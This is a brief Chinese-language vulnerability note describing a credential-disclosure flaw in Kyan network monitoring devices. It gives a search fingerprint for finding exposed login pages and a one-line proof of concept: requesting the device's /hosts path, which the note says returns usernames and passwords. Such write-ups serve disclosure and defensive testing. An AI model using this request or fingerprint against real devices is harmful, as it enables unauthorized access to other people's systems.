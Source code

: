 # Kyan 网络监控设备 hosts 账号密码泄露漏洞

# Kyan 网络监控设备 hosts 账号密码泄露漏洞

## 漏洞描述

Kyan 网络监控设备 存在账号密码泄露漏洞，攻击者通过漏洞可以获得账号密码和后台权限

## 漏洞影响

```
Kyan
```

## 网络测绘

```
title="platform - Login"
```

## 漏洞复现

登录页面如下

![](/images/202202140926162.png)

POC

```plain
http://xxx.xxx.xxx.xxx/hosts
```

![](/images/202202140927595.png)

成功获得账号密码




